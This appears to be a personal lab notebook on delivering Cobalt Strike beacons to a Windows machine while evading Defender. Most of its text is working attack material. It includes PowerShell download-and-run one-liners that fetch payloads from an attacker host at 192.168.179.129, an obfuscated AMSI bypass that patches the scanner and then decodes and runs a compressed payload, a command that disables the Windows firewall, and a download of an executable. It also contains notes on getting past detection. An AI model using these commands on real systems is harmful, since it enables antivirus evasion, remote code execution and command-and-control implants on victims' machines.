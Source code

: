 
![[Pasted image 20250130193320.png]]
hosted
![[Pasted image 20250130193419.png]]
payload
`iex(iwr http://192.168.179.129/haha -useb)`

blocked by defender
***In order to have this not happend again need to work with an early screenshot of windows that hasnt detected everything yet or nothing will work***
![[Pasted image 20250130193643.png]]
testing again with the `compress.ps1` that worked previously - the other was missing a space or wsomehting
`iex(iwr http://192.168.179.129/haha2 -useb)`
- the iex is being detected, need to find another way to execute it

test amsi with new variables - this works as a new `amsi`
```bash
class TrollAMSI{static [int] M([string]$sleepy, [string]$sleeper){return 1}}
[System.Runtime.InteropServices.Marshal]::Copy(@([System.Runtime.InteropServices.Marshal]::ReadIntPtr([long]([TrollAMSI].GetMethods() | Where-Object Name -eq 'M').MethodHandle.Value + [long]8)),0, [long]([Ref].Assembly.GetType('System.Ma'+'nag'+'eme'+'nt.Autom'+'ation.A'+'ms'+'iU'+'ti'+'ls').GetMethods('N'+'onPu'+'blic,st'+'at'+'ic') | Where-Object Name -eq ScanContent).MethodHandle.Value + [long]8,1);$tiredofthis=New-Object IO.MemoryStream(,[Convert]::FromBase64String("%%DATA%%"));IEX (New-Object IO.StreamReader(New-Object IO.Compression.GzipStream($tiredofthis,[IO.Compression.CompressionMode]::Decompress))).ReadToEnd();
```
payload to execute `resource kit`
`iex(iwr http://192.168.179.129/please -useb)`

proof that the beacons work with defender off and firewall off
![[Pasted image 20250130204158.png]]
cobalt proof
![[Pasted image 20250130204233.png]]
firewall off
`netsh advfirewall set allprofiles state off`
#### Artifact kit test
```bash
PS C:\Users\blaster\Desktop\malware> wget http://192.168.179.129:80/testing -UseBasicP -OutFile "C:\Users\blaster\Desktop\testing.exe"     

http://192.168.179.129:80/testing
```
working 